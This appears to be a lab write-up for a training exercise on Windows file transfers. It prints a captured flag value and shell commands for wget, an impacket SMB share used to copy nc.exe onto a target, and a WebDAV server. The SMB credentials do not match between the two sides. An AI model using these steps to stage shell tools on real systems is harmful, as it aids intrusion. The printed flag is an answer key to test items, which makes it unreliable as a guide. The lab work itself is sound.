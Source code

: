 # Windows File Transfer Methods

### Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.

```bash
wget 10.129.201.55/flag.txt
cat flag.txt 
b1a4ca918282fcd96004565521944a3b 
```

### Upload the attached file named upload\_win.zip to the target using the method of your choice. Once uploaded, RDP to the box, unzip the archive, and run "hasher upload\_win.txt" from the command line. Submit the generated hash as your answer.

```bash
#this is via smb
#on linux side
impacket-smbserver share -smb2support /tmp/share -user doge -password doge
#on win
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

```bash
#WebDav Server
sudo pip install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
#on windows
dir \\192.168.49.128\DavWWWRoot
```
